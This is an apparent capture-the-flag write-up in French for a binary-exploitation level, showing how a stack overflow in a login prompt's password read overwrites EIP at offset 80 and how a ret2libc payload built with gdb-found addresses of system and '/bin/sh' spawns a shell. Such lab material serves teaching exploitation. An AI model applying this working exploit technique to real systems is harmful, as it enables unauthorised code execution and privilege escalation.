 # Level 01

Le programme de se niveau est presque semblable au niveau précedent, sauf que cette fois même si le binaire n'aboutira jamais car qu'elle que soit le mot de passe que nous rentrerons nous aurons `nope, incorrect password...`.

Le binaire demande sur STDIN un utilisateur et lance la fonction `verify_user_name` ou il fait un `strncmp` de la chaine récupérer sur STDIN avec `dat_wil`. Si l'utilisateur est égale à `dat_wil`, le programme nous demanderas un password et executeras la fonction `verify_user_pass` feras un `strncmp` de la chaine de charactère avec `admin` mais dans tous les cas le programme s'arreteras et ecriras sur STDOUT `nope, incorrect password...`.

Mais l'or du deuxième `fgets` il est possible de réecrire EIP avec un offest de 80, nous pouvons alors l'exploité avec un `ret2libc`.

Nous devons alors retrouver l'adresse de la fonction `system` et de l'adresse de la string `/bin/sh`. 

```shell
~ gdb level01
(gdb) r
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....
Enter Password:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
nope, incorrect password...

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb) shell echo -n "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU" | wc -c
84
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) quit
~ python -c 'print "dat_wil\n" + "B"*80 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"' > /tmp/pattern
~ cat /tmp/pattern - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
```

